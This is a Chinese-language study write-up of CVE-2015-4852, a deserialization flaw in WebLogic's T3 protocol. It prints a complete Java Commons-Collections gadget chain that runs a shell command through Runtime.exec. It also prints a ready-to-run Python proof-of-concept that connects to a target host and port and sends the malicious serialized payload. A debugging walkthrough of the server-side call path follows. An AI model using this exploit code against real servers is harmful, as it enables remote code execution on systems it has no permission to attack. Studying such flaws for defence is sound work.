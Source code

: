 # CVE-2015-4852

## T3协议简析

简单了解一下t3协议,因为这个漏洞是利用t3作为攻击方式

t3协议是对rmi使用的标准封装,也即是t3协议在互相通信的过程中,传输的都是序列化的数据

t3协议的请求分为两部分,第一部分为请求头

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled.png)

第二部分为请求体

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%201.png)

下面是请求体的构成

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%202.png)

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%203.png)

那么利用方式其实就是替换到后面正常的序列化数据为恶意的序列化数据

## 漏洞利用和分析

首先需要利用cc1来生成一个反序列化的攻击向量

```java
/**
     * 漏洞利用链,这里使用了LazyMap$get这个方法
     * ObjectInputStream.readObject()
     * AnnotationInvocationHandler.readObject()
     * Map(Proxy).entrySet()
     * AnnotationInvocationHandler.invoke()
     * LazyMap.get()
     * ChainedTransformer.transform()
     * ConstantTransformer.transform()
     * InvokerTransformer.transform()
     * Method.invoke()
     * Class.getMethod()
     * InvokerTransformer.transform()
     * Method.invoke()
     * Runtime.getRuntime()
     * InvokerTransformer.transform()
     * Method.invoke()
     * Runtime.exec()
     **/
    public static void vulnToLazyMap() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"touch /tmp/success"})}
        );
        HashMap hashMap = new HashMap();
        Map decorate = LazyMap.decorate(hashMap, chainedTransformer);

        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Target.class, decorate);
        Map invocation_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
        InvocationHandler o = (InvocationHandler) declaredConstructor.newInstance(Target.class, invocation_map);

        SerializeUtil.writeObjectToFile(o);
        SerializeUtil.readObjectToFile();
    }
```

> [https://github.com/v1f18/SerializerChain/blob/main/Common-collections/src/main/java/vuln/Commoncollections1.java](https://github.com/v1f18/SerializerChain/blob/main/Common-collections/src/main/java/vuln/Commoncollections1.java) (具体的代码)
> 

生成的文件在下面的py脚本中使用

poc

```python
import binascii
import socket
import argparse

def exp(ip, port, file):
    t3_header = 't3 10.3.6\nAS:255\nHL:19\n\n'
    host = (ip, int(port))
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(15)
    sock.connect(host)
    # send t3 header
    sock.sendall(t3_header.encode('utf-8'))
    resp1 = sock.recv(1024)
    print("resp-part1:\n" + str(resp1))
    resp2 = sock.recv(1024)
    print("resp-part2:\n" + str(resp2))
    data1 = '016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000'

    # second payload
    with open(file, 'rb') as f:
        payload = binascii.b2a_hex(f.read()).decode('utf-8')
    data = data1 + payload
    data = '%s%s' % ('{:08x}'.format(len(data) // 2 + 4), data)
    print("send payload ...")
    sock.send(binascii.a2b_hex(data))
    print(sock.recv(1024))

if __name__ == '__main__':
    args = argparse.ArgumentParser()
    args.add_argument("-i","--ip")
    args.add_argument("-p","--port")
    args.add_argument("-f","--file",default="poc.ser")
    arg = args.parse_args()
    if (arg.ip != None) & (arg.port != None):
        exp(arg.ip,arg.port,arg.file)
```

调试过程

发送pyload之后,先看一处比较关键的代码

InboundMsgAbbrev$ServerChannelInputStream#resolveClass

我们知道resolveClass方法是用来在反序列化过程中加载类的定义的,也就是可以加载一些自定义的类

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%204.png)

看一下var1的数据

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%205.png)

其实就是反序列化串

super.resolveClass()进入父类的resolveClass方法,也就是ObjectInputStream

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%206.png)

可以看见这里返回了AnnotationInvocationHandler类的class对象

然后在回到下面的循环里面

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%207.png)

查看一下这个var1.head是什么

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%208.png)

这里比较直观了,head就是用cc1链子生成的poc

跟进this.readObject(var1)

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%209.png)

查看var1.read()

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2010.png)

进入到父类的read方法里

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2011.png)

这个方法主要用来读取head中的序列化数据,返回0

然后回到readObject

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2012.png)

**这里把var1传进去了,**看一下对应的构造方法

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2013.png)

一直跟进var1.getServerChannel()

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2014.png)

这里的MuxableSocketT3类有一个静态代码

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2015.png)

在脚本运行的时候返回的数据中就包含了这个

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2016.png)

channel包含了一些socket处理的流程

接着调用ServerChannelInputStream的readObject方法,其实就是调用了父类ObjectInputStream的readObject方法,然后因为var1中包含了反序列化串,所以还会调用AnnotationInvocationHandler的readObject方法

![Untitled](CVE-2015-4852%20d6ade06beb49479788a2b125e4ce73fb/Untitled%2017.png)

下面就是cc1的流程了

## 总结

上面的调试过程还是需要多调试几遍,感觉还是有些地方不太懂,只能说有个大概的了解了